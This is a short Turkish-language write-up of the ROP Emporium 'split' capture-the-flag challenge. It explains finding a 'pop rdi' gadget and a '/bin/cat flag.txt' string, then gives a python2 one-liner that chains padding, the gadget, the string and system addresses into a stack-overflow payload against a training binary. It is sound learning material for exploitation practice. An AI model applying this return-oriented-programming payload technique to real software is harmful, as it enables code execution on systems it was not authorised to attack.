

# ROP Emporium `split` Writeup


x64 mimaride programımızı indirdikten sonra programımız hakkında bilgi edinelim




Sistemde `main` , `pwnme` ve `usefulFunction` isimli 3 tane fonksiyonumuz mevcut.

Bunun dışında programımızın içerisinde "/bin/cat flag.txt" komutunu çalıştırmamıza yardımcı olmak için bir `symbol` bulunmaktadır.

    readelf --symbols split | grep "useful"


O halde x64 mimaride ilk argumanı alan `rdi` registerı üzerine `/bin/cat flag.txt` yazısını içeren `usefulString` adresimizi yazdıktan sonra `system` çağrısını çağırarak komutumuzun çalışmasını sağlayacağız. Bunun için öncelikle `pop rdi` komutunu içeren bir gadget'a ihtiyacımız var. GDB üzerinde herhangi bir yere breakpoint koyup çalıştırdıktan sonra `ropsearch` komutu ile arayalım.


Tam da istediğimiz gibi :) O halde bellek adresini doldurduktan sonra `gadget` adresimizi, daha sonra `usefulString` adresini yazacağız. Böylece komutumuz rdi üzerine yerleşecektir. Daha sonra `system` adresini girerek bu komutun çalışmasını sağlayacağız.

```bash

python2 -c "print 'A'*40 + '\x83\x08\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\xe0\x05\x40\x00\x00\x00\x00\x00'" | ./split

```


Ve flag dosyasını başarılı bir şekilde okumuş olduk...
